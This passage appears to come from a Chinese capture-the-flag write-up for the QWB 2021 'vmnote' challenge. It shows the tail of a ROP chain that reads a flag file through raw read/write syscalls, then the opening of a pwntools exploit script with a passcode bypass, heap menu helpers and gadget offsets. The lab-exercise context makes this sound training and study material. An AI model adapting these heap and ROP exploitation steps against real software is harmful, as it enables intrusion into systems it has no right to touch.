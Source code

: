 ```python
        # read(3, buf, 0x100)
        poprax, 0, 
        poprdi, 3, 
        poprsi, flag, 
        poprdx, 0x100, 0, 
        syscall, 
        # write(1, buf, 0x100)
        poprax, 1, 
        poprdi, 1, 
        poprsi, flag, 
        poprdx, 0x100, 0, 
        syscall
            )

    sl(payload)

    my_dele(heap4)

```



完整exp

::: details

或[github](https://github.com/wlingze/ctf_events/blob/main/other/qwb_2021_vmnote/exp.py)

```python 
#! /usr/bin/env python
# -*- coding: utf-8 -*-
# vim:fenc=utf-8
#
# Copyright © 2020 wlz <wlz@kyria>
#
# Distributed under terms of the MIT license.

from pwn import * 

pie  = 1
arch = 64
bps  = [0x000000000003BE3]

def change():
    ru("challenge ")
    random = int(re(9, 2)) + 0x12345678
    payload = "01d_6u7_v190r0u5_"+str(random)
    sla('passcode: ', payload)
    
def add(idx, size, con):
    sla("choice>> ", "1")
    sla("idx:", str(idx))
    sla("size", str(size))
    sla("content:", con)

def show(idx):
    sla("choice>> ", "2")
    sla("idx:", str(idx))

def dele(idx):
    sla("choice>> ", "4")
    sla("idx:", str(idx))

ret = 0x653
pop = 0x6ca
read = 0x5ef
```